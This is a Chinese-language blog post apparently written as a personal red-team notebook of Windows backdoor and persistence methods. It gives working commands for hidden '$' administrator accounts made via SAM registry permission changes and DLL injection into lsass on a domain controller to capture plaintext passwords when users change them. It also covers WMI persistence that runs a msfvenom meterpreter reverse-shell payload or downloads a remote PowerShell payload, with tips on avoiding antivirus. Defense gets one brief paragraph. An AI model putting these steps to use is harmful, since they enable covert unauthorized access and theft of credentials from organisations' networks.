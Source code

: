 ```yaml
---
layout: post
title: Backdoor and persistence-Windows
date: 2020-01-31 23:30:00
tags: 域渗透 backdoor persistence
categories: hack  
author: PythonPig
---
```

* content
{:toc}

这篇文章主要记录自己使用的一些Windows后门和权限维持的方法，大部分来自网络，同时会记录一些自己在使用过程中踩的坑，方法会持续更新。  

{:refdef: style="text-align: center;"}
![backdoor](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Backdoor%20and%20persistence-Windows/backdoor.png?raw=true)
{: refdef}   




图片来源于https://xz.aliyun.com/t/4842
### \#0x00 影子账户
影子账户指的是用户名以$结尾，具有administrator权限，使用net user和控制面板看不到的账户。  
下面添加影子账户的方法不适用于DC(域控)，因为该方法利用了本地帐号保存在注册表HKEY_LOCAL_MACHINE\SAM\SAM中的信息，但是域控不存在本地账户： 
```
There is no local account on dc(domain controller)
Please understand that when a Windows server is promoted to a domain controller, the server no longer uses the local account (Security Accounts Manager [SAM]) database during normal operations to store users and groups. When the promotion is complete, the new domain controller has a copy of the Active Directory database in which it stores users, groups, and computer accounts. The SAM database is present, but it is inaccessible when the server is running in Normal mode. The only time that the local SAM database is used is when you boot into Directory Services Restore mode or the Recovery Console. 
If this new domain controller is the first domain controller in a new domain, the local SAM database that the new domain controller contained as a stand-alone server is migrated to the Active Directory database that is created during the promotion. All of the local user accounts that the local SAM database contained when it had been a stand-alone server are migrated from the local SAM database to the Active Directory database. In addition, any permissions that had been assigned to the local users, such as, NTFS permissions, are retained when the users are migrated to the Active Directory database.
 
```  
若域控需要添加隐藏用户，可直接添加以$结尾的用户，net user不显示该用户，但在“AD用户和计算机”和“控制面板用户管理”可以看到该用户。  
```
net user test$ !QAZ2wsx#EDC /add            添加的是普通域用户，“AD用户和计算机”可见，“控制面板用户管理”(管理本地用户)不可见
net localgroup administrators test$ /add    加入本地管理员组，“AD用户和计算机”和“控制面板用户管理”可见
```

1、分配注册表权限  
 
因为默认情况下，只用nt authority\system可以编辑HKEY_LOCAL_MACHINE\SAM\SAM，因此需要给administrator分配权限，regini的使用可以查看使用帮助。  
```
regini up.ini
```    
up.ini的内容如下:  
```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator [1 17]
```

2、使用powershell脚本添加影子账户  
这里使用三好学生的脚本添加影子账户，[脚本：Windows-User-Clone](https://github.com/3gstudent/Windows-User-Clone)，这个脚本需要system权限，因为注册表的权限已经分配，修改下脚本使脚本可以在administrator权限下运行，[修改后的脚本](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Backdoor%20and%20persistence-Windows/Windows-User-Clone.ps1)，添加的用户名和密码在文件的最后一行。  
```
powershell.exe -file Windows-User-Clone.ps1
```
注：使用wmiexec.py和psexec.py远程操作时，会触发杀软，建议远程桌面登录后执行powershell脚本。  

3、添加成功后，恢复注册表权限  
```
regini down.ini  
```
down.ini的内容如下:  
```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Administrator [17]
```

4、添加帐号的使用  
RDP:直接使用，用户名就是就是添加的用户，如：username$  
wmi:wmiexec.py "username$"@10.100.100.100  
psexe:psexec.py "username$"@10.100.100.100  
使用wmi或psexe时若提示“第一次登录需要修改密码”，则使用RDP在登录时修改密码。  

5、防御  
针对隐藏帐户的利用，查看注册表HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\即可。  
当然，默认管理员权限(administrator)无法查看，需要分配权限或是提升至Sytem权限，可打开注册表编辑器(regedit.exe)直接分配权限。  

### \#0x01 Hook PasswordChangeNotify
在域用户(包括域管)修改密码时，通过Hook PasswordChangeNotify拦截并记录其明文密码。  
利用powershell向lsass进程注入dll，实现Hook功能，详细原理参考《参考》中的相关文章。  
1、生成dll  
源代码可以在这里下载：https://github.com/clymb3r/Misc-Windows-Hacking  
为了使记录的明文密码的文件更隐蔽，简单修改下源代码，使记录密码的文件保存在C:\windows\temp\XXX.tmp文件中。  
使用VS2015开发环境，MFC设置为在静态库中使用MFC，编译工程，生成[HookPasswordChange.dll]()。  

2、下载Powershell的dll注入脚本  
源代码可以在这里下载：https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps  
需要在最后添加一句代码以调用上述dll文件，直接下载 三好学生 修改好的[3gstudent/HookPasswordChangeNotify.ps1](https://github.com/3gstudent/Hook-PasswordChangeNotify)。  

3、Hook PasswordChangeNotify  
将HookPasswordChangeNotify.ps1和HookPasswordChange.dll上传至域控的同一目录下。  
执行：
```
PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
```
当域用户修改密码后，明文密码将被记录在域控的C:\windows\temp\XXX.tmp中。  

4、远程获取明文密码  
可以修改DLL，使获取的明文密码直接上传至服务器，已经有人写好了DLL[kevien/PasswordchangeNotify](https://github.com/kevien/PasswordchangeNotify)。  

5、实际使用  
在使用过程中可能会被杀软拦截，在测试过程中发现，Windows Defender会识别将HookPasswordChangeNotify.ps1识别为恶意脚本而直接隔离，其他杀软未测试。  

### \#0x02 WMI Persistence
介绍几个使用powershell脚本实现WMI Persistence(WMI持久化)的方法，后续补充其他语言的实现方法。  
WMI的相关内容这里不介绍了，参见[WMI相关知识学习](https://pythonpig.github.io/2015/12/20/WMI相关知识学习/)，实现WMI Persistence的过程就是注册一个永久性的WMI事件订阅，当注册的事件被触发时，完成相应的操作。注册永久性的WMI事件需要完成以下三个步骤：  
```
1、Create event filter:创建一个事件过滤器
2、Create event consumer:创建一个事件处理器，代表一个事件触发时执行的动作
3、Bind filter and consumer:将event filter和event consumer绑定，代表将一个过滤器绑定到一个事件处理器
```
这里提供几个大牛已经写好了的powershell脚本实现WMI Persistence。  
这里先介绍一下使用msfvenom生成powershell meterpreter反弹payload的方法。
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.100.100.222 LPORT=443 -f psh-reflection -a x64 --platform windows -o psh.ps1
```
1、执行cmd命令或者启动本地payload.exe，支持启动触发、用户登录触发、周期触发和定时触发。[WMI-Persistence-local-exe](xxxxxxxx)，具体使用参见脚本源码的example。  
添加后门  
```
Import-Module .\WMI-Persistence.ps1
Install-Persistence -Trigger Startup -Payload "c:\windows\notepad.exe"
或
Install-Persistence -Trigger Startup -Payload "net user test /add"
```
删除后门  
```
Import-Module .\WMI-Persistence.ps1
Remove-Persistence
```

2、下载远端powershell payload并执行，支持启动触发。[WMI-Persistence-remote-powershell-startup](xxxxx)。  
添加后门  
```
Import-Module .\WMI-Persistence.ps1
Install-Persistence #目标启动后触发一次
```
删除后门  
```
Import-Module .\WMI-Persistence.ps1
Remove-Persistence
```

3、下载远端powershell payload并执行，支持用户登录触发、周期触发和定时触发。[WMI-Backdoor-remote-powershell](xxxxx)，具体使用参见脚本源码的example。  
添加后门  
```
Import-Module .\WMIBackdoor.ps1
Set-WMIBackdoor -URL "http://192.168.1.1/Ps1Payload.ps1" -Name "PWN" -Interval 400 -UserTrigger #登录触发
```
删除后门  
```
Import-Module .\WMIBackdoor.ps1
Remove-WMIBackdoor PWN
```


### 参考
* [渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)  
* [windows后渗透维权](http://www.landq.cn/2019/09/01/windows%E5%90%8E%E6%B8%97%E9%80%8F%E7%BB%B4%E6%9D%83/)  
* [域渗透——Hook PasswordChangeNotify](https://3gstudent.github.io/3gstudent.github.io/about/)
